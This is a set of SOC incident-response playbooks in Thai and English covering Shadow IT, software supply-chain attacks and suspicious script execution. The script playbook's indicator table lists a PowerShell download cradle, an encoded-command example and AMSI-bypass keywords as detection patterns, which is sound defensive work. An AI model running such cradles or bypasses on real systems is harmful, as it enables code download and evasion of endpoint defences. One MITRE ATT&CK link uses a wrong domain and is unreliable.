| มี OAuth เชื่อมต่อกับ IdP องค์กรหรือไม่? | Enterprise Apps | ☐ |
| มีความจำเป็นทางธุรกิจจริงหรือไม่? | สอบถามหน่วยงาน | ☐ |

### 1.3 การประเมินข้อมูลที่เปิดเผย

| ประเภทข้อมูล | รั่วไหล? | ระดับ | การดำเนินการ |
|:---|:---|:---|:---|
| PII ลูกค้า | ☐ ใช่ ☐ ไม่ | L4 | แจ้ง PDPA |
| ซอร์สโค้ด / IP | ☐ ใช่ ☐ ไม่ | L3-L4 | เรียกคืนทันที |
| ข้อมูลการเงิน | ☐ ใช่ ☐ ไม่ | L4 | ทบทวนกฎหมาย |
| ข้อมูลใน AI prompt | ☐ ใช่ ☐ ไม่ | แล้วแต่ | ตรวจสอบเนื้อหา |

---

## 2. การควบคุม

### 2.1 ความเสี่ยงสูง (มีข้อมูลถูกอัปโหลด)

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **บล็อกบริการ** ที่ proxy/firewall | Proxy / Firewall | ☐ |
| 2 | **เพิกถอน OAuth** ที่เชื่อมต่อ IdP | Enterprise Apps | ☐ |
| 3 | **เปิด DLP** ป้องกันการอัปโหลดเพิ่ม | CASB / DLP | ☐ |
| 4 | **บันทึกหลักฐาน** | CASB | ☐ |
| 5 | แจ้งผู้จัดการ | อีเมล / แชท | ☐ |

---

## 3. การแก้ไข

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **ส่งออก / ลบ** ข้อมูลองค์กรจากบริการที่ไม่ได้รับอนุญาต | ☐ |
| 2 | **ลบบัญชี** หรือเปลี่ยนรหัสผ่านหากใช้ credential ซ้ำ | ☐ |
| 3 | **ประเมินความจำเป็น** — พิจารณาอนุมัติพร้อม security controls | ☐ |
| 4 | **อัปเดต AUP** (Acceptable Use Policy) | ☐ |
| 5 | หาก PII รั่วไหล → เริ่มกระบวนการแจ้ง PDPA | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | จัดหาทางเลือกที่ได้รับอนุมัติ | ☐ |
| 2 | ปรับนโยบาย CASB สำหรับ Shadow IT discovery | ☐ |
| 3 | สร้าง SaaS governance framework | ☐ |
| 4 | ตรวจสอบ SaaS ที่ไม่ได้รับอนุญาตรายเดือน | ☐ |
| 5 | จัดอบรมด้านความปลอดภัยข้อมูล | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII / ข้อมูลลูกค้าถูกอัปโหลด | Legal + DPO (PDPA 72 ชม.) |
| ซอร์สโค้ดถูกอัปไปบริการสาธารณะ | CISO + หัวหน้าวิศวกรรม |
| ข้อมูลถูกอัปไป AI/LLM | CISO + ทีม Privacy |
| ใช้งานทั้งแผนก (>10 คน) | SOC Lead + IT Director |
| OAuth เชื่อมต่อ corporate directory | ทีม Identity ด่วน |

---

### ผัง SaaS Risk Scoring

```mermaid
graph TD
    App["📱 Unsanctioned App"] --> Score{"⚖️ Risk Score?"}
    Score -->|High Risk| Block["🔒 Block ทันที"]
    Score -->|Medium Risk| Review["👁️ Review: มีทางเลือก?"]
    Score -->|Low Risk| Allow["✅ Allow + monitor"]
    Review -->|Yes| Migrate["🔄 Migrate to approved"]
    Review -->|No| Onboard["📋 Onboard + SSO"]
    style Block fill:#e74c3c,color:#fff
    style Onboard fill:#27ae60,color:#fff
```

### ผัง SSO Integration Flow

```mermaid
sequenceDiagram
    participant User
    participant IdP as Azure AD SSO
    participant App as SaaS App
    participant SOC
    User->>IdP: Login to SaaS
    IdP->>IdP: MFA + Conditional Access
    IdP->>App: SAML assertion
    App-->>User: ✅ Access granted
    IdP->>SOC: 📋 Audit log
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Shadow IT — Unauthorized SaaS Usage | [proxy_shadow_it.yml](../../08_Detection_Engineering/sigma_rules/proxy_shadow_it.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-08 การนำข้อมูลออก](Data_Exfiltration.th.md)
- [นโยบายธรรมาภิบาลข้อมูล](../../07_Compliance_Privacy/Data_Governance_Policy.th.md)

## Shadow IT Discovery Methods

| Method | Coverage | Detection Rate |
|:---|:---|:---|
| Proxy/Firewall logs | Web SaaS | 80% |
| CASB | Cloud apps | 90% |
| DNS analysis | All internet | 70% |
| Endpoint agent | Installed apps | 95% |
| Financial review | Paid services | 60% |

### Risk Rating Matrix

| Factor | Low | Medium | High |
|:---|:---|:---|:---|
| Data sensitivity | Public | Internal | Confidential |
| User count | < 5 | 5-50 | 50+ |
| Data transfer | < 1 GB | 1-50 GB | 50+ GB |
| Authentication | SSO/MFA | Password only | None |

### Shadow IT Response Workflow

| Phase | Action | Owner | SLA |
|:---|:---|:---|:---|
| Discover | Identify unauthorized service | SOC | Ongoing |
| Assess | Risk rating + data audit | Security | 48 hrs |
| Decide | Approve / Block / Migrate | CISO | 5 days |
| Execute | Implement decision | IT + Security | 14 days |

### Risk Acceptance Process

| Step | Owner | SLA |
|:---|:---|:---|
| Risk assessment | Security | 48 hrs |
| Business justification | Requester | 5 days |
| CISO approval | CISO | 3 days |

## อ้างอิง

- [MITRE ATT&CK T1567 — Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567/)
- [NIST SP 800-144 — Cloud Computing Guidelines](https://csrc.nist.gov/publications/detail/sp/800-144/final)


---

## File: 05_Incident_Response/Playbooks/Supply_Chain_Attack.en.md

# Playbook: Supply Chain Attack Response

**ID**: PB-32
**Severity**: Critical | **Category**: Software Supply Chain
**MITRE ATT&CK**: [T1195](https://attack.mitre.org/techniques/T1195/) (Supply Chain Compromise), [T1195.001](https://attack.mitre.org/techniques/T1195/001/) (Compromise Software Dependencies), [T1195.002](https://attack.microsoft.com/techniques/T1195/002/) (Compromise Software Supply Chain)
**Trigger**: Vendor advisory, TI alert, EDR detection (compromised update), Dependency scan, CISA advisory

### Supply Chain Attack Vectors

```mermaid
graph TD
    SC["🔗 Supply Chain"] --> Type{"📋 Vector?"}
    Type -->|Software Update| Update["📦 Trojanized Update"]
    Type -->|Open Source| OSS["🔓 Malicious Package"]
    Type -->|Hardware| HW["🔧 Firmware Implant"]
    Type -->|MSP/Vendor| MSP["🏢 Vendor Compromise"]
    Update --> Impact["💥 Impact Assessment"]
    OSS --> Impact
    HW --> Impact
    MSP --> Impact
```

### SBOM Verification

```mermaid
sequenceDiagram
    participant SOC
    participant SCA as SCA Tool
    participant Dev as Dev Team
    participant Vendor
    SOC->>SCA: Scan dependencies
    SCA-->>SOC: Compromised package found!
    SOC->>Dev: 🚨 Stop using package
    Dev->>Dev: Pin to safe version
    SOC->>Vendor: Notify + request advisory
    Dev->>SOC: ✅ Remediated
```

> ⚠️ **CRITICAL**: Supply chain attacks can affect thousands of organizations simultaneously. Time-to-containment directly impacts blast radius.

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Supply Chain Alert"] --> Source{"📢 Alert Source?"}
    Source -->|Vendor Advisory / CVE| Advisory["📄 Review Advisory"]
    Source -->|CISA/CERT Alert| CERT["🏛️ Review CERT Details"]
    Source -->|Internal Detection| Internal["🔍 Anomaly on Vendor Component"]
    Source -->|Threat Intel / News| TI["📰 Emerging Threat"]
    Advisory --> Scope["📊 Scope Impact"]
    CERT --> Scope
    Internal --> Scope
    TI --> Scope
    Scope --> Used{"🖥️ We Use This Component?"}
    Used -->|Yes| Inventory["📋 Enumerate Affected Systems"]
    Used -->|No| Monitor["👁️ Monitor — No Action"]
    Inventory --> IOC{"🔍 IoCs Found?"}
    IOC -->|Yes| Compromised["🔴 Confirmed Compromise"]
    IOC -->|No| Mitigate["🟠 Preventive Mitigation"]
    Compromised --> FullIR["🔒 Full IR Response"]
```

---

## 1. Analysis

### 1.1 Supply Chain Attack Types

| Type | Example | Detection |
|:---|:---|:---|
| **Compromised software update** | SolarWinds Orion (SUNBURST) | Update contains backdoor |
| **Compromised dependency** | npm/PyPI malicious package | Typosquatting, dependency confusion |
| **Compromised build system** | Codecov CI script | CI/CD pipeline injection |
| **Compromised vendor access** | MSP/MSSP credential compromise | Vendor account misuse |
| **Compromised hardware/firmware** | Pre-installed malware | Firmware integrity check |
| **Compromised container image** | Docker Hub malicious image | Image scanning |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Identify the compromised component (library, update, vendor) | Advisory, TI | ☐ |
| Affected versions | Advisory / CVE details | ☐ |
| Enumerate ALL systems using the component | SBOM, package managers, CMDB | ☐ |
| When was the compromised version installed? | Package manager logs, change history | ☐ |
| How long was it active? | Timeline analysis | ☐ |
| Search for advisory-provided IoCs | SIEM, EDR, network logs | ☐ |
| Were any IoCs found? | Search results | ☐ |
| Did the compromised component have network access? | Firewall rules, traffic logs | ☐ |
| Did the compromised component have credentials/secrets access? | Config, env vars | ☐ |

### 1.3 SBOM Assessment

| Question | Answer | Done |
|:---|:---|:---:|
| Do we have an SBOM for affected applications? | | ☐ |
| Are dependency versions pinned? | | ☐ |
| Are checksums verified in CI/CD? | | ☐ |
| Do we use a private package registry? | | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Isolate** affected systems from network | ☐ |
| 2 | **Block C2** — add advisory-provided IoCs to blocklists | ☐ |
| 3 | **Disable vendor access** — revoke API keys, OAuth, VPN, service accounts | ☐ |
| 4 | **Freeze CI/CD** — halt all deployments until compromised dependency removed | ☐ |
| 5 | **Snapshot** affected systems for forensics | ☐ |

### 2.2 Vendor Access Revocation

| Access Type | How to Revoke | Done |
|:---|:---|:---:|
| API keys | Rotate in API management | ☐ |
| OAuth tokens | Enterprise Apps / IdP | ☐ |
| VPN credentials | VPN management | ☐ |
| Service accounts | AD / IAM | ☐ |
| SSH keys / certificates | Key management | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Patch/rollback** to clean version of compromised component | ☐ |
| 2 | **Rotate ALL secrets** accessible to the compromised component | ☐ |
| 3 | **Audit SBOM** for additional vulnerable dependencies | ☐ |
| 4 | **Rebuild** affected applications from clean dependencies | ☐ |
| 5 | **Verify file integrity** — compare binaries against known-good hashes | ☐ |
| 6 | Hunt for backdoors, web shells, or persistence created by attacker | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Staged restoration** — restore systems in phases with monitoring | ☐ |
| 2 | **Validate integrity** of all restored systems | ☐ |
| 3 | **Request vendor's incident report** before restoring vendor access | ☐ |
| 4 | **Implement SBOM** — maintain for all applications | ☐ |
| 5 | **Pin dependency versions** and verify checksums in CI/CD | ☐ |
| 6 | **Private registry** — mirror dependencies in private package registry | ☐ |
| 7 | **Vendor assessment** — update third-party risk management program | ☐ |
| 8 | Monitor for 30 days | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Compromised component name/version | | Advisory |
| Malicious file hashes | | Advisory / EDR |
| C2 domains/IPs | | Advisory / TI |
| Backdoor indicators | | Advisory / Forensics |
| Affected systems | | SBOM / Inventory |
| Vendor access logs | | IAM / VPN |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Production systems confirmed compromised | CISO + Major Incident |
| Data exfiltration via supply chain backdoor | Legal + DPO (PDPA 72h) |
| CI/CD pipeline compromised | Engineering Lead + CISO |
| Vendor confirmed breached | Legal + Procurement + CISO |
| Multiple organizations affected (industry-wide) | ISAC sharing (TLP:AMBER) |
| Credentials accessed by compromised component | IAM team + Full secret rotation |

---

### SBOM Management

```mermaid
graph LR
    Build["🔨 CI/CD Build"] --> SBOM["📋 Generate SBOM"]
    SBOM --> Scan["🔍 Scan vulnerabilities"]
    Scan --> CVE{"🔓 CVE found?"}
    CVE -->|Yes| Block["❌ Block deployment"]
    CVE -->|No| Deploy["✅ Deploy"]
    Block --> Fix["🔧 Update dependency"]
    style Block fill:#e74c3c,color:#fff
    style Deploy fill:#27ae60,color:#fff
```

### Vendor Risk Assessment

```mermaid
sequenceDiagram
    participant Security
    participant Vendor
    participant Legal
    participant CISO
    Security->>Vendor: 📋 Security questionnaire
    Vendor-->>Security: Complete questionnaire
    Security->>Security: ⚖️ Calculate risk score
    Security->>Legal: Review contract terms
    Security->>CISO: 📊 Risk report
    CISO->>CISO: Approve / Reject
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Suspicious Dependency Activity | [cloud_supply_chain_compromise.yml](../../08_Detection_Engineering/sigma_rules/cloud_supply_chain_compromise.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-03 Malware Infection](Malware_Infection.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [PB-18 Exploit](Exploit.en.md)

## References

- [MITRE ATT&CK T1195 — Supply Chain Compromise](https://attack.mitre.org/techniques/T1195/)
- [NIST SP 800-161r1 — Cybersecurity Supply Chain Risk Management](https://csrc.nist.gov/publications/detail/sp/800-161/rev-1/final)
- [CISA — Defending Against Software Supply Chain Attacks](https://www.cisa.gov/sites/default/files/publications/defending_against_software_supply_chain_attacks_508.pdf)
- [SLSA Framework](https://slsa.dev/)


---

## File: 05_Incident_Response/Playbooks/Supply_Chain_Attack.th.md

# Playbook: Supply Chain Attack / การโจมตีห่วงโซ่อุปทาน

**ID**: PB-32
**ระดับความรุนแรง**: วิกฤต | **หมวดหมู่**: ภัยคุกคามจากภายนอก
**MITRE ATT&CK**: [T1195](https://attack.mitre.org/techniques/T1195/) (Supply Chain Compromise)
**ทริกเกอร์**: Vendor advisory, TI alert, EDR detection (compromised update), dependency vulnerability scan


## หลังเหตุการณ์ (Post-Incident)

- [ ] ตรวจสอบ SBOM ทั้งหมดหา vulnerable components
- [ ] ทบทวน vendor risk assessment process
- [ ] ใช้ SCA (Software Composition Analysis) ใน CI/CD
- [ ] ตรวจ code signing certificates
- [ ] ใช้ allowlist สำหรับ approved packages/vendors
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังเวกเตอร์ Supply Chain

```mermaid
graph TD
    SC["🔗 Supply Chain"] --> Type{"📋 ประเภท?"}
    Type -->|Software Update| Update["📦 Trojanized Update"]
    Type -->|Open Source| OSS["🔓 Malicious Package"]
    Type -->|Hardware| HW["🔧 Firmware Implant"]
    Type -->|MSP/Vendor| MSP["🏢 Vendor Compromise"]
    Update --> Impact["💥 Impact Assessment"]
    OSS --> Impact
    HW --> Impact
    MSP --> Impact
```

### ผังขั้นตอน SBOM Verification

```mermaid
sequenceDiagram
    participant SOC
    participant SCA as SCA Tool
    participant Dev as Dev Team
    participant Vendor
    SOC->>SCA: สแกน dependencies
    SCA-->>SOC: พบ compromised package!
    SOC->>Dev: 🚨 หยุดใช้ package
    Dev->>Dev: Pin ไปเวอร์ชันปลอดภัย
    SOC->>Vendor: แจ้ง + ขอ advisory
    Dev->>SOC: ✅ Remediated
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Supply Chain Alert"] --> Type{"📦 ประเภท?"}
    Type -->|Software Update| SW["💿 Compromised Update"]
    Type -->|Open-Source Dep| OSS["📦 Malicious Package"]
    Type -->|Vendor/MSP Access| Vendor["🏢 Vendor Compromise"]
    Type -->|Container Image| Container["🐳 Compromised Image"]
    Type -->|Hardware/Firmware| HW["🔌 Hardware Backdoor"]
    SW --> SBOM["📋 ตรวจ SBOM"]
    OSS --> SBOM
    Vendor --> Access["🔑 ตรวจ Vendor Access"]
    Container --> SBOM
    HW --> Isolate["🔒 Isolate Hardware"]
    SBOM --> Scope{"📊 กี่ระบบ?"}
    Scope -->|มาก| Major["🔴 Major Incident"]
    Scope -->|น้อย| Contain["🟠 Contain + Patch"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทการโจมตี Supply Chain

| ประเภท | ตัวอย่างจริง | ความรุนแรง |
|:---|:---|:---|
| **Software Update** | SolarWinds SUNBURST | 🔴 วิกฤต |
| **Open-Source Package** | event-stream (npm), ua-parser-js | 🔴 สูง |
| **Vendor/MSP Access** | Kaseya VSA, MoveIT | 🔴 วิกฤต |
| **Container Image** | Docker Hub compromised images | 🟠 สูง |
| **CI/CD Pipeline** | Codecov bash uploader | 🔴 วิกฤต |
| **Hardware/Firmware** | Pre-installed backdoor | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ซอฟต์แวร์/component/library ที่ได้รับผลกระทบ | Advisory / SCA | ☐ |
| เวอร์ชันที่มีปัญหา (affected versions) | Advisory | ☐ |
| SBOM — ใช้ที่ไหนในองค์กร? | SBOM / SCA scan | ☐ |
| มี IoC จาก advisory? | TI platform | ☐ |
| Vendor แจ้งวิธี remediate? | Vendor contact | ☐ |
| มี patched version แล้ว? | Advisory | ☐ |
| ระบบที่ใช้ component นี้เป็น internet-facing? | CMDB | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Block** เวอร์ชันที่มีปัญหา (ห้ามติดตั้ง/อัปเดต) | Package mgr / SCA | ☐ |
| 2 | **Isolate** ระบบที่ได้รับผลกระทบ | EDR / Network | ☐ |
| 3 | **ตัด vendor access** ชั่วคราว | VPN / PAM | ☐ |
| 4 | **Scan IoC** ทั้งองค์กร | SIEM / EDR | ☐ |
| 5 | **Freeze deployments** ที่ใช้ affected component | CI/CD | ☐ |

### 2.1 การจัดการ Vendor Access

| Vendor Type | การดำเนินการ | เสร็จ |
|:---|:---|:---:|
| MSP (managed service) | ปิด VPN / ลบ access ทันที | ☐ |
| SaaS vendor | ตรวจ OAuth tokens, ปิด API access | ☐ |
| On-site vendor | ปิด network access, แจ้ง vendor | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Rollback / uninstall** เวอร์ชันที่มีปัญหา | ☐ |
| 2 | **อัปเดต** เป็นเวอร์ชันที่ปลอดภัย (ถ้ามี) | ☐ |
| 3 | ลบ backdoor / persistence ที่ inserted | ☐ |
| 4 | หมุนเวียน credentials ที่เข้าถึงได้จาก affected system | ☐ |
| 5 | **Rebuild** affected systems จาก clean state | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ใช้ **private registry** สำหรับ packages/images | ☐ |
| 2 | ใช้ **SCA** (Software Composition Analysis) ใน CI/CD | ☐ |
| 3 | สร้าง **SBOM** สำหรับทุกแอปพลิเคชัน | ☐ |
| 4 | ใช้ **dependency pinning** (lock files) | ☐ |
| 5 | ตรวจสอบ **vendor security** ทุกปี (SOC 2, ISO 27001) | ☐ |
| 6 | เปิด **Dependabot / Renovate** automated alerts | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| SolarWinds/Kaseya-scale compromise | CISO + Major Incident |
| ข้อมูลลูกค้าถูกเข้าถึง | Legal + DPO (PDPA 72 ชม.) |
| Critical infrastructure ได้รับผลกระทบ | Regulator |
| การแจ้งสาธารณะจำเป็น | PR + Executive |
| Nation-state indicators | National CERT + Law Enforcement |

---

### ผัง SBOM Management

```mermaid
graph LR
    Build["🔨 CI/CD Build"] --> SBOM["📋 Generate SBOM"]
    SBOM --> Scan["🔍 Scan vulnerabilities"]
    Scan --> CVE{"🔓 CVE found?"}
    CVE -->|Yes| Block["❌ Block deployment"]
    CVE -->|No| Deploy["✅ Deploy"]
    Block --> Fix["🔧 Update dependency"]
    style Block fill:#e74c3c,color:#fff
    style Deploy fill:#27ae60,color:#fff
```

### ผัง Vendor Risk Assessment

```mermaid
sequenceDiagram
    participant Security
    participant Vendor
    participant Legal
    participant CISO
    Security->>Vendor: 📋 Security questionnaire
    Vendor-->>Security: ตอบแบบสอบถาม
    Security->>Security: ⚖️ ประเมิน risk score
    Security->>Legal: ตรวจสอบ contract
    Security->>CISO: 📊 Risk report
    CISO->>CISO: Approve / Reject
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Suspicious Dependency Activity | [cloud_supply_chain_compromise.yml](../../08_Detection_Engineering/sigma_rules/cloud_supply_chain_compromise.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-03 มัลแวร์](Malware_Infection.th.md)
- [PB-18 Exploit](Exploit.th.md)

## Supply Chain Attack Indicators

| Indicator | Source | Detection |
|:---|:---|:---|
| Modified package hash | Build pipeline | Checksum verify |
| Unusual update timing | Vendor advisories | Off-cycle alert |
| New network connections | NDR | Post-update monitoring |
| Embedded backdoor | SAST/DAST | Code scan |
| Dependency confusion | Package manager | Namespace check |

### Vendor Risk Tiers (Supply Chain)

| Tier | Access Level | Monitoring | Assessment |
|:---|:---|:---|:---|
| Critical | Code/infrastructure | Continuous | Quarterly |
| High | Data processing | Weekly review | Semi-annual |
| Medium | Network access | Monthly review | Annual |
| Low | No access | Periodic | Biennial |

### Vendor Communication Template

| Item | Content |
|:---|:---|
| Subject | Security incident notification |
| Impact | [affected systems] |
| Request | Patch/advisory ETA |
| Contact | [security team email] |

## อ้างอิง

- [MITRE ATT&CK T1195 — Supply Chain Compromise](https://attack.mitre.org/techniques/T1195/)
- [CISA — ICT Supply Chain Risk Management](https://www.cisa.gov/supply-chain)


---

## File: 05_Incident_Response/Playbooks/Suspicious_Script.en.md

# Playbook: Suspicious Script Execution

**ID**: PB-11
**Severity**: High | **Category**: Endpoint / Execution
**MITRE ATT&CK**: [T1059](https://attack.mitre.org/techniques/T1059/) (Command & Scripting Interpreter), [T1059.001](https://attack.mitre.org/techniques/T1059/001/) (PowerShell), [T1059.005](https://attack.mitre.org/techniques/T1059/005/) (Visual Basic)
**Trigger**: EDR alert ("PowerShell EncodedCommand", "WScript suspicious execution"), AMSI detection, Sysmon Event ID 1

### Script Analysis Pipeline

```mermaid
graph LR
    Script["📜 Script"] --> AMSI["🛡️ AMSI"]
    AMSI --> Deobfuscate["🔓 Deobfuscate"]
    Deobfuscate --> Analyze["🔍 Analyze Intent"]
    Analyze --> IOC["🎯 Extract IOCs"]
    IOC --> Hunt["🎯 Org-wide Hunt"]
    style Script fill:#3498db,color:#fff
    style AMSI fill:#27ae60,color:#fff
    style IOC fill:#e74c3c,color:#fff
```

### PowerShell Logging Detection

```mermaid
sequenceDiagram
    participant PS as PowerShell
    participant AMSI
    participant EventLog as Event Log
    participant SIEM
    PS->>AMSI: Scan script content
    AMSI-->>PS: ✅ / ❌
    PS->>EventLog: Event 4104 (ScriptBlock)
    EventLog->>SIEM: Forward
    SIEM->>SIEM: Detect obfuscation pattern
    SIEM->>SIEM: 🚨 Alert SOC
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Script Execution Alert"] --> Engine{"⚙️ Script Engine?"}
    Engine -->|PowerShell| PS["🔵 PowerShell Analysis"]
    Engine -->|VBScript/JScript| VBS["🟠 WScript/CScript Analysis"]
    Engine -->|Python/Bash| Other["🟡 Other Script"]
    Engine -->|Macro (VBA)| Macro["🔴 Office Macro"]
    PS --> Encoded{"🔍 Encoded/Obfuscated?"}
    Encoded -->|Yes -enc / IEX| Decode["Decode + Sandbox"]
    Encoded -->|No, Cleartext| Analyze{"Malicious Content?"}
    VBS --> Parent{"Parent Process?"}
    Macro --> Parent
    Other --> Analyze
    Decode --> Analyze
    Parent -->|Word/Excel/Outlook| Phishing["🔴 Phishing Delivery"]
    Parent -->|explorer/cmd| UserRun["⚠️ User Initiated"]
    Analyze -->|Download cradle / C2| Confirmed["🔴 Malicious"]
    Analyze -->|Admin script / IT tool| FP["✅ False Positive"]
    Phishing --> Kill["🔌 Kill + Isolate"]
    Confirmed --> Kill
```

---

## 1. Analysis

### 1.1 Script Engine Identification

| Engine | File Extensions | Process Name | Parent (Suspicious) |
|:---|:---|:---|:---|
| **PowerShell** | `.ps1`, `.psm1` | `powershell.exe`, `pwsh.exe` | Word, Excel, WMI, cmd |
| **VBScript** | `.vbs`, `.vbe` | `wscript.exe`, `cscript.exe` | Explorer, Outlook |
| **JScript** | `.js`, `.jse` | `wscript.exe`, `cscript.exe` | Browser, Explorer |
| **VBA Macro** | embedded | `WINWORD.EXE`, `EXCEL.EXE` | N/A (spawns child) |
| **Python** | `.py`, `.pyc` | `python.exe`, `python3` | Depends on context |
| **Batch/CMD** | `.bat`, `.cmd` | `cmd.exe` | Word, PowerShell |
| **Bash/Shell** | `.sh` | `bash`, `sh` | Cron, web server |

### 1.2 Suspicious Indicators

| Indicator | Example | Risk |
|:---|:---|:---|
| `-EncodedCommand` / `-enc` | `powershell -enc SQBFAFgA...` | 🔴 High |
| `Invoke-Expression` / `IEX` | `IEX(New-Object Net.WebClient).DownloadString(...)` | 🔴 High |
| Download cradle | `Net.WebClient`, `Invoke-WebRequest`, `curl` | 🔴 High |
| Memory-only execution | `Reflection.Assembly::Load`, `.NET in-memory` | 🔴 High |
| AMSI bypass | `AmsiUtils`, `amsiInitFailed` | 🔴 Critical |
| Execution policy bypass | `-ExecutionPolicy Bypass` | 🟠 Medium |
| Obfuscation | String concatenation, char codes, `^` escaping | 🟠 Medium |
| Scheduled task creation | `schtasks /create`, `Register-ScheduledTask` | 🔴 High |
| Registry modification | `Set-ItemProperty`, `reg add` | 🟠 Medium |

### 1.3 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Decode the command (Base64, URL encoding) | CyberChef, `[System.Text.Encoding]::Unicode` | ☐ |
| What did the script DO? | Decoded content analysis | ☐ |
| Parent process chain | EDR process tree | ☐ |
| User context (admin/standard, SYSTEM?) | Process details | ☐ |
| Did it download anything? | Proxy / DNS logs, EDR network | ☐ |
| Did it create files? | File creation events, Sysmon | ☐ |
| Was AMSI triggered? | AMSI logs, Event ID 1116 | ☐ |
| Did it establish persistence? | Registry, scheduled tasks, services | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Kill** the script engine process | EDR | ☐ |
| 2 | **Isolate** the host | EDR | ☐ |
| 3 | **Block** downloaded payload hash | EDR global blacklist | ☐ |
| 4 | **Block** C2/download URL at proxy | Proxy / DNS | ☐ |
| 5 | **Disable** user account (if macro phishing) | AD / IdP | ☐ |

### 2.2 If Macro-Based Delivery (Phishing)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Search all mailboxes for same attachment | ☐ |
| 2 | Delete phishing emails from all mailboxes | ☐ |
| 3 | Block sender domain at email gateway | ☐ |
| 4 | Check if any other users opened the attachment | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Delete the malicious script file (`.ps1`, `.vbs`, `.js`) | ☐ |
| 2 | Remove downloaded payloads | ☐ |
| 3 | Remove persistence (scheduled tasks, registry Run keys, services) | ☐ |
| 4 | Clear PowerShell command history if attacker used console | ☐ |
| 5 | Full AV/EDR scan of the host | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Reconnect host after verified clean | ☐ |
| 2 | Enforce Constrained Language Mode for PowerShell | ☐ |
| 3 | Deploy/verify AppLocker or WDAC script restrictions | ☐ |
| 4 | Enable Script Block Logging (Event ID 4104) | ☐ |
| 5 | Enable Module Logging for PowerShell | ☐ |
| 6 | Monitor host for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Script file hash | | EDR |
| Decoded command content | | Analysis |
| Download URL | | Proxy / EDR |
| Downloaded payload hash | | EDR |
| C2 domain/IP | | DNS / Proxy |
| Parent process | | EDR |
| Persistence location | | Registry / Sysmon |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| AMSI bypass detected | Tier 2 + Threat Hunt |
| Download cradle connecting to C2 | [PB-13 C2](C2_Communication.en.md) |
| Macro phishing hitting multiple users | [PB-01 Phishing](Phishing.en.md) — Major |
| Credential dumping via script | [PB-07 PrivEsc](Privilege_Escalation.en.md) |
| Ransomware payload downloaded | [PB-02 Ransomware](Ransomware.en.md) |
| Script ran as SYSTEM | SOC Lead immediately |

---

### AMSI Detection Pipeline

```mermaid
graph LR
    Script["📜 Script"] --> AMSI["🛡️ AMSI scan"]
    AMSI --> Clean{"✅ Clean?"}
    Clean -->|Yes| Execute["⚙️ Execute"]
    Clean -->|No| Block["❌ Block"]
    Block --> EDR["🚨 EDR alert"]
    EDR --> SOC["🎯 SOC investigate"]
    style Block fill:#e74c3c,color:#fff
    style AMSI fill:#27ae60,color:#fff
```

### Script Execution Policy

```mermaid
graph TD
    Policy["📋 Execution Policy"] --> AppLocker["🔒 AppLocker"]
    Policy --> WDAC["🛡️ WDAC"]
    Policy --> CLM["📜 Constrained Language"]
    AppLocker --> Whitelist["✅ Whitelist only"]
    WDAC --> SignedOnly["🔏 Signed scripts only"]
    CLM --> Limited["⚠️ Limited cmdlets"]
    style AppLocker fill:#27ae60,color:#fff
    style SignedOnly fill:#3498db,color:#fff
    style Limited fill:#f39c12,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |
| Office Spawning PowerShell | [proc_office_spawn_powershell.yml](../../08_Detection_Engineering/sigma_rules/proc_office_spawn_powershell.yml) |
